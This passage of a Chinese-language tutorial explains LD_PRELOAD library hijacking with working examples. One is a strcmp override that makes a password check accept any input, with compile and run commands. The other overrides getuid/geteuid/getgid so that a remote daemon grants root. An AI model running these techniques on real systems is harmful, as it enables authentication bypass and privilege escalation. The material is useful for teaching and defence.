     /* 文件名：hack.c */
    #include <stdio.h>
    #include <string.h>
 
    int strcmp(const char *s1, const char *s2)
    {
        printf("hack function invoked. s1=<%s> s2=<%s>/n", s1, s2);
        /* 永远返回0，表示两个字符串相等 */
        return 0;
    } 
 
编译程序：

    $ gcc -o verifypasswd verifypasswd.c
    $ gcc -shared -o hack.so hack.c
 
测试一下程序：（得到正确结果）

	$ ./verifypasswd asdf
	Invalid Password!

设置LD_PRELOAD变量：（使我们重写过的strcmp函数的hack.so成为优先载入链接库）

    $ export LD_PRELOAD="./hack.so"
再次运行程序：
    
	$ ./verifypasswd  asdf
    hack function invoked. s1=<password> s2=<asdf>
    Correct Password!
 
我们可以看到，1）我们的hack.so中的strcmp被调用了。2）主程序中运行结果被影响了。如果这是一个系统登录程序，那么这也就意味着我们用任意口令都可以进入系统了。
### 示例二
 
让我们再来一个示例（这个示例来源于我的工作）。这个软件是一个分布式计算平台，软件在所有的计算机上都有以ROOT身份运行的侦听程序（Daemon），用户可以把的一程序从A计算机提交到B计算机上去运行。这些Daemon会把用户在A计算机上的所有环境变量带到B计算机上，在B计算机上的Daemon会fork出一个子进程，并且Daemon会调用seteuid、setegid来设置子程的执行宿主，并在子进程空间中设置从A计算机带过来的环境变量，以仿真用户的运行环境。（注意：A和B都运行在NIS/NFS方式上）
 
于是，我们可以写下这样的动态链接库：
 
    /* 文件名：preload.c */
 
	#include <dlfcn.h>
    #include <unistd.h>
	#include <sys/types.h>
 
	uid_t geteuid( void ) { return 0; }
	uid_t getuid( void ) { return 0; }
	uid_t getgid( void ) { return 0; }
 
在这里我们可以看到，我们重载了系统调用。于是我们可以通过设置LC_PRELOAD来迫使主程序使用我们的geteuid/getuid/getgid（它们都返回0，也就是Root权限）。这会导致，上述的那个分布式计算平台的软件在提交端A计算机上调用了geteuid得到当前用户ID是0，并把这个用户ID传到了执行端B计算机上，于是B计算机上的Daemon就会调用seteuid(0)，导致我们的程序运行在了Root权限之下。从而，用户取得了超级用户的权限而为所欲为。
 
上面的这个preload.c文件也就早期的为人所熟知的hack程序了。恶意用户通过在系统中设计LC_PRELOAD环境变量来加载这个动态链接库，会非常容易影响其它系统命令（如：```/bin/sh, /bin/ls, /bin/rm``` 等），让这些系统命令以Root权限运行。
 
让我们看一下这个函数是怎么影响系统命令的：
      